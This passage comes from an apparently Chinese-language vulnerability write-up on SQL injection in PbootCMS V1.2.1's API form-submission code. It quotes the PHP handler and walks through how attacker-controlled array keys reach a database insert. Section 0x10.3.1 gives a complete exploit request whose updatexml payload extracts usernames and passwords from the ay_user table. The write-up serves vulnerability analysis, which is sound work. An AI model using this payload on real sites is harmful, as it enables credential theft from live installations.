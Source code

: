                 // 写入数据
                if ($this->model->addMessage($value->table_name, $data)) {
                    $this->log('API提交表单数据成功！');
                    if ($this->config('message_send_mail') && $this->config('message_send_to')) {
                        $mail_subject = "【PbootCMS】您有新的表单数据，请注意查收！";
                        $mail_body .= '<br>来自网站' . get_http_url() . '（' . date('Y-m-d H:i:s') . '）';
                        sendmail($this->config(), $this->config('message_send_to'), $mail_subject, $mail_body);
                    }
                    json(1, '表单提交成功！');
                } else {
                    $this->log('API提交表单数据失败！');
                    json(0, '表单提交失败！');
                }
            } else {
                json(0, '表单提交失败，请使用POST方式提交！');
            }
        }

可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部
POST 内容，只匹配数据库的字段，相同才会拼接到 \$\_data数组

    然后就会带入 $this->model->addMessage(data) 执行语句

文件：PbootCMS-V1.2.1\\apps\\api\\model\\CmsModel.php 函数：addMessage(

    // 新增留言
        public function addMessage($table, $data)
        {
            return parent::table('ay_message')->autoTime()->insert($data);
        }

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入

0x10.3 接口注入三
-----------------

### 0x10.3.1 漏洞利用

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addform?fcode=1
    post:
        contacts[content`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
        mobile = 111
        content = 123

![](resource/PbootCMSsql注入/media/rId53.png)

0x10.3.2 漏洞讲解

    // 表单提交  注入
        public function addform()
        {
            if ($_POST) {
